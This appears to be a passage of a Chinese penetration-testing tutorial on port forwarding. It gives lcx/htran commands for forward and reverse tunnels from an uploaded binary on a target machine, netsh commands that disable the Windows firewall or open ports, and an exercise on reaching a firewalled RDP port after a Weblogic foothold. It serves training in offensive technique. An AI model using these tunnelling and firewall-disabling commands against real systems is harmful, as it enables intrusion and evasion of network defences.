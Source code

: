 # 端口转发技术



#### 端口转发技术 <a id="-"></a>

**htran/lcx**

**1. 使用htran/lcx进行正向转发**

本机执行以下命令，将操作机的8888端口转发至目标机器的7001端口

```text
lcx.exe -tran 8888 101.198.180.144 7001
```

访问操作机的8888端口

![](https://p408.ssl.qhimgs4.com/t01018374280036e9a4.png)

**2. 使用htran/lcx进行反向转发**

操作机执行

```text
lcx.exe -listen 1234 8888
```

需上传lcx至靶机，并执行

```text
lcx.exe -slave 101.198.180.135 1234 127.0.0.1 7001
```

攻击机访问本机8888端口

![](https://p408.ssl.qhimgs4.com/t01ea2e7554e36425be.png)

**习题\(Weblogic反序列化工具\)：目标机器开启Weblogic端口后，不允许再登录目标机器。假设操作机与目标机之间存在防火墙，限制访问目标3389端口，如何远程过去？**

**3. Linux版本的lcx**

```text
gcc portmap.c -o lcx
```

![](https://p408.ssl.qhimgs4.com/t0127097c442d15dec5.png)

**netsh**

```text
netsh firewall show state 查看防火墙状态
# netsh firewall set opmode disable 关闭防火墙
# netsh firewall set opmode enable 启用防火墙
netsh advfirewall firewall add rule name="in" dir=in action=allow protocol=TCP localport=8080
netsh advfirewall firewall add rule name="out" dir=out action=allow protocol=TCP localport=8080
```

操作机以管理员身份运行运行，需根据实际需求改127.0.0.1的地址：
